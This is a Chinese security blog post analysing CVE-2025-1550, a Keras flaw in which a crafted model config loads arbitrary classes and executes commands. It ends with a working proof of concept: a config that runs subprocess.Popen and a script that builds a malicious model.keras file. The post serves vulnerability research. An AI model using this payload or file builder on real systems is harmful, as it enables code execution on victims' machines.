# Keras解析config时动态加载任意模块中的类造成rce分析(cve-2025-1550)-先知社区

> **来源**: https://xz.aliyun.com/news/18156  
> **文章ID**: 18156

---

## 分析

通过版本对比很快找到这里，新版本（左）限制了动态加载模块的名称，这就能看出这个漏洞的关键应该是没有限制好可以动态加载模块而导致使用不被预期的模块进行rce了。



我们再从头看`keras.models.load_model()->saving_lib.load_model()->_load_model_from_fileobj()`，主要看解压完`.keras`之后处理`config.json`的逻辑(前面有处理远程文件和其他文件的逻辑略过)。



看这个函数名从config种导出model，直接跟进，他先把config加载成字典，然后尝试从config种反序列化出model



动态加载模块的`_retrieve_class_or_fn`就在`deserialize_keras_object`被调用，但是这三个地方没有机会让我们直接调用返回对象的任意方法，而是指定方法，所以还需要我们寻找某个类含指定方法，并且该方法为危险方法，并且入参最好被我们完全掌控。



比如对于第三处，调用from\_config，inner\_config即config的内层config，我们是完全可控的。



找到这个类



传递给`functional_from_config`



主要就是看这个方法了，先导出了config的一些内容进functional\_config



然后主要就是处理layer，导出node，执行node



这里的layer来自created\_layers列表，有process\_layer创建



process\_layer还有嵌套解析config，所以这里可以让动态加载处加载一个恶意对象返回了



走这条直接返回



## poc：

所以第一层走cls动态调用keras.models.Model.from\_config，第二层在layers种嵌入第三层真正动态加载的恶意对象，使用提供的方法传参调用，如果报错缺少字段了手动添加即可，可以构造如下demo直接加载config

```
import keras
config={
  "config": {
    "module": "keras.models",
    "class_name": "Model",
    "config": {
      "name": "le0n",
      "layers": [
        {
          "name": "le0n",
          "class_name": "function",
          "config": "Popen",
          "module": "subprocess",
          "inbound_nodes": [
            {
              "args": [["calc"]],
              "kwargs": {"bufsize": -1}
            }
          ]
        }
      ],
      "input_layers": [["le0n", 0, 0]],
      "output_layers": [["le0n", 0, 0]]
    }
  }
}

keras.utils.deserialize_keras_object(config)
```

生成恶意model.keras文件

```
import os
import zipfile
import json
import numpy as np
from keras.models import Sequential
from keras.layers import Dense

# 1. 训练模型并保存
model_name = "model.keras"
x_train = np.random.rand(100, 28 * 28)
y_train = np.random.rand(100)

model = Sequential([Dense(1, activation='linear', input_dim=28 * 28)])
model.compile(optimizer='adam', loss='mse')
model.fit(x_train, y_train, epochs=5)
model.save(model_name)

# 2. 伪造恶意 config.json
malicious_config = {
    "config": {
        "module": "keras.models",
        "class_name": "Model",
        "config": {
            "name": "le0n",
            "layers": [
                {
                    "name": "le0n",
                    "class_name": "function",
                    "config": "Popen",
                    "module": "subprocess",
                    "inbound_nodes": [
                        {
                            "args": [["calc"]],
                            "kwargs": {"bufsize": -1}
                        }
                    ]
                }
            ],
            "input_layers": [["le0n", 0, 0]],
            "output_layers": [["le0n", 0, 0]]
        }
    }
}

# 3. 替换 config.json
tmp_model_name = f"tmp.{model_name}"

with zipfile.ZipFile(model_name, 'r') as zip_in, \
     zipfile.ZipFile(tmp_model_name, 'w') as zip_out:
    # 复制除 config.json 外的所有文件
    for item in zip_in.infolist():
        if item.filename != "config.json":
            zip_out.writestr(item, zip_in.read(item.filename))

# 替换原模型文件
os.remove(model_name)
os.rename(tmp_model_name, model_name)

# 将恶意 config.json 写入模型
with zipfile.ZipFile(model_name, 'a') as zip_out:
    zip_out.writestr("config.json", json.dumps(malicious_config))

print(f"已写入{model_name}")
#keras.models.load_model(model_name)
```

参考：<https://blog.huntr.com/inside-cve-2025-1550-remote-code-execution-via-keras-models>
